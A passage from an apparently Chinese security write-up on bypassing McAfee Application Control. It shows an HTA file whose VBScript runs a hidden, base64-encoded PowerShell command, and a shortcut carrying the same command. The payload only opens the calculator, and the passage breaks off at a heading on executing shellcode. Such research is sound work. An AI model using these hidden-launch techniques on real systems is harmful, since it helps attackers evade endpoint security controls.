 **方法2：**

利用hta可以执行vbs，再用vbs执行Powershell

使用如下代码并保存为vbs+ps.hta

    
    
    #!html
    <HTML> 
    <HEAD> 
    <script language="VBScript">
        Set WshShell = CreateObject("WScript.Shell")
        Connect="powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA=="
        WshShell.Run Connect, 4, true
    
    </script>
    <HTA:APPLICATION ID="test"
    WINDOWSTATE = "minimize">
    
    </HEAD> 
    <BODY> 
    </BODY> 
    </HTML> 
    

执行后先调用vbs脚本，再执行Powershell命令

**方法3：**

利用快捷方式执行Powershell

右键新建一个快捷方式，填入如下代码，并保存为ps.lnk

    
    
    powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA==
    

如图

![p17](http://static.wooyun.org//drops/20151127/2015112704462979643p171.png)

运行快捷方式后执行Powershell命令，弹出计算器

**方法4：**

利用Powershell环境直接执行，简单粗暴

cmd下执行Powershell.exe进入Powershell环境，然后在下面直接输入所有命令即可

## 0x05 漏洞利用

* * *

目前我们已经可以在安装McAfee ApplicationControl的系统中执行vbs、jscript、Powershell，那么利用上述方法可以实现什么呢？

### 1.执行shellcode

**方法1：**
